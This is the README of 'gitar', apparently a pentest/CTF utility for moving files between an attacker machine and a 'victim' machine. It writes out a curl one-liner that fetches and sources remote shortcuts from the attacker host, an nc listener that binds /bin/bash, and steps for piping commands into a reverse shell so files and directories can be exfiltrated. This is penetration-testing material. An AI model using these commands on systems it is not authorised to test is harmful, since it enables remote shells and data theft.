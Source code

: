 # 🎸 gitar 

> Make file exchange more Rock'N'Roll during pentest/ctf

<div align="center">
<br><b>~></b> Have the  <b><i>simplest possible shortcuts </i></b> to upload/download file to/from my <q>victim machine</q>
</div>

## TL;DR *- and listen music*

On my target machine:
 - **Download a file** to my attacker machine: `pull [file]`
 - **Upload a file** to my attacker machine: `push [file]`
 - **Upload a directory** to my attacker machine: `pushr [file]`

*Before be able to use these shortcut you have to [set up](#set-up) both machines. Once again, the aim is to made it as simple as possible*

## Set up

### Pre-requisite

* Network connectivy trough http between attacker & target machine
*[target machine] <--http--> [Attacker machine]*

* On target machine: `nc`,`cat`, `curl` 
	* and `tar` for upload directory 

### Steps

 1. <sup>(Attacker machine)</sup> Launch the "server" : `./gitar -e [server_reachable_ip] -p [server_port]`
 2. <sup>(Target machine)</sup> get shortcuts from `/alias` endpoint and source them. The one-liner corresponding would be provided in 1. step: `curl -s http://[attacker_ip:port]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias`

**And that's all, you can now `push`or `pull` file [🎶](#tldr---and-listen-music)**

### Steps with a `nc` reverse shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*
1. <sup>(Target machine)</sup> Launch your classic listener: `nc -nvlp 4444 -e /bin/bash`
2. <sup>(Attacker machine)</sup> Launch the "server" : `./gitar -e [server_reachable_ip] -p [server_port]`
3.  <sup>(Attacker machine)</sup> Connect to the reverse shell + load shortcut within: `export CMD=[get & source shortcuts one-liner] && (echo $CMD && cat) | nc [VICTIM_IP] 4444`

**And enjoy you revshell [🎶](#tldr---and-listen-music)**

## Enhancement 

**~>** *All improvments must keep `gitar` simple and don't add unlikely pre-requisites*

**Useful cause we will expose our http server and thus we become the prey**
-   HTTPS, basic authent (for the file server part)
-   Command line to run server on a docker (or harden `gitar` with seccomp + apparmor + drop capabilities) 

**Improve UX**
-   Soft to workaround limit due to `cat` use for reverse shell connection => autocompletion in reverse shell will not work as we have a pipe not a terminal. (To solve the pb we must have a prgm that creates a pseudoterminal, spawns a program connected to this pseudoterminal [see](https://stackoverflow.com/questions/5843741/how-can-i-pipe-initial-input-into-process-which-will-then-be-interactive) )
-   endpoint qui output le tree du fichier possible pour pull

-  Download directory support 
-  Completion on target shell to help `pull` (path completion)
- An option to directly launch the reverse shell session with shortcut from `gitar`

